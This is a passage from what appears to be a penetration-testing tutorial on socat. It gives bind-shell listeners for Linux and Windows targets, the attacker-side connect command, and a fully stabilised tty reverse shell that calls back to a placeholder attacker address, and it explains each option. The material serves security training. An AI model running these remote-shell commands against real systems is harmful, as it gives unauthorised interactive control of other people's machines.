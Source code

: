 socat TCP-L:<PORT> EXEC:"bash -li"

On a Windows target we would use this command for our listener:

socat TCP-L:<PORT> EXEC:powershell.exe,pipes

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

socat TCP:<TARGET-IP>:<TARGET-PORT> -

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. 
This will only work when the target is Linux, but is significantly more stable. 
As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. 
Here is the new listener syntax:

socat TCP-L:<port> FILE:`tty`,raw,echo=0

Let's break this command down into its two parts. 
As usual, we're connecting two points together. In this case those points are a listening port, and a file. 
Specifically, we are passing in the current TTY as a file and setting the echo to be zero. 
This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. 
This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. 
The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

pty, allocates a pseudoterminal on the target -- part of the stabilisation process
stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
setsid, creates the process in a new session
sane, stabilises the terminal, attempting to "normalise" it.
That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. 
Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:
